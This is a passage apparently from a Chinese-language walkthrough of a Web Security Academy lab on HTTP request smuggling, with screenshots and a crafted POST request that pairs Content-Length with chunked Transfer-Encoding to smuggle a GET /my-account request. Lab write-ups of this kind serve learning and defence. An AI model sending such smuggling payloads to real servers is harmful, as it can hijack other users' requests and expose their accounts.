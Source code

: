[![](assets/1704418275-dccb305a798c99d67a75fa1d6727e06c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170717-7e3d3396-aa17-1.png)  
随后构造一下请求走私的数据包

```plain
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Ignore: X
```

[![](assets/1704418275-3cccfa12870f49fc975c214786865ae9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170737-8a1ec0f8-aa17-1.png)  
重复这个请求几次，然后在匿名浏览器窗口中加载主页
